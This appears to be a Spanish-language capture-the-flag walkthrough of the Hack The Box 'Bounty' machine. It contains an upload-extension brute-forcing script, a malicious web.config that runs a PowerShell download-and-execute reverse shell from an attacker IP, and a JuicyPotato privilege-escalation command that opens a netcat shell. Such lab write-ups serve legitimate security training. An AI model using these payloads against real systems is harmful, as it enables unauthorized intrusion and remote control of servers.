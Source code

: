 # Bounty-HTB

## NMAP

Esta maquina solo tiene el puerto 80 abierto.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d99534a-d8d7-4b37-8450-fee111059940)

## Dirbuster y WFUZZ

Para esta maquina ya nos dimos cuenta que nos enfrentamos a un ***IIS 7.5*** buscamos archivos .aspx, .asp, .config.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html,asp,aspx,config


```
Siempre que estes probando algo creo que es bueno ver hacktricks.

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services

Se encontro una pagina trasfer.aspx

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/39bea836-ef1f-41c3-a8c0-303c2e772704)


Siempre que tenemos este tipo de cosas hay que probar que extenciones permiten las que nos permitirian ejecutar comandos son .asp, aspx y .config ( esta yo no sabia). Otra ruta que se encontro es:

> http://10.129.18.176/UploadedFiles


## Python (probando extenciones que acepta)

Para probar extenciones se uso el script de s4vitar.

```python

#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests, re

# Diccionario A Utilizar
# /usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt

transfer_url='http://10.129.137.104/transfer.aspx'

def def_handler(sig, frame):
	print("\n\n[!] Saliendo....\n")
	sys.exit(1)

#CTRL+ C
signal.signal(signal.SIGINT, def_handler)
#time.sleep(10)

burp = { 'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):
	# Vamos a arrastrar sesiones
	#r = requests.get(transfer_url)
	s = requests.session()
	r = s.get(transfer_url)
	#pdb.set_trace()
	viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"',r.text)[0]
	#print(viewState)
	#pdb.set_trace()
	eventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"',r.text)[0]
	#print(eventValidation)
	post_data = {
	'__VIEWSTATE': viewState,
	'__EVENTVALIDATION': eventValidation,
	'btnUpload': 'Upload'
	}
	fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}
	r = s.post(transfer_url,data=post_data,files= fileUploaded) # proxies=burp
	#print(r.text)
	if "Invalid File. Please try again"  not in r.text:
		#print ("La Extencion es correcta")
		log.info("La extension %s valida " % extension)




if __name__ == '__main__':
	f = open("/usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt", "rb")

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")

	time.sleep(2)

	for extension in f.readlines():
		#pdb.set_trace()
		extension= extension.decode().strip()
		p1.status("Probando con la extension %s" % extension)
		uploadFile(extension)


```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/1c58bea9-bc86-456c-9c6e-eb1277585549)


## Burpsuite

Se pueden probar las extenciones validas con el intruder.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/0dae7f01-379a-43f8-973c-29fce098dab0)

Agregamos ahi en donde esta la extencion y nos vamos a payloads.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c5088d8c-fe65-4b72-8480-69a6ffde08aa)


Al lanzarlo tenemos un problema lo esta URL encodeando necesitamos arreglar eso o no funciona.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/ba912ed8-fa64-4bba-ba6e-6bbd1dd4aa02)

Quitamos esa opcion. Si queremos que nos saque una frase cosa que veo ya inecesario solo fijate en el length

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c85ba7ee-5e0c-4567-9eb0-7a704f16e08e)


## RCE

Entonces en este punto ya sabemos que se puede subir una extencion .config por lo que vamos a subir un web.config con una reverseshell.

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/a07d1f8f-3ce1-43cd-b514-8f956b4581db)


Con esto ganamos acceso a la maquina y ya sabes haciendo una enumeracion vemos el privilegio de SetImpersonate. Algo a destacar la flag estaba escondida como archivo oculto. usa las opciones /a:h tanto como para buscar como para listar.

### JuicePotato

La manera mas facil de escalar privilegios.

```
.\JuicyPotato.exe -t * -l 1337 -p cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd.exe 10.10.14.22 1234" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"

```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d86d65b-f0b9-4819-a76a-4390e58a2420)


















































































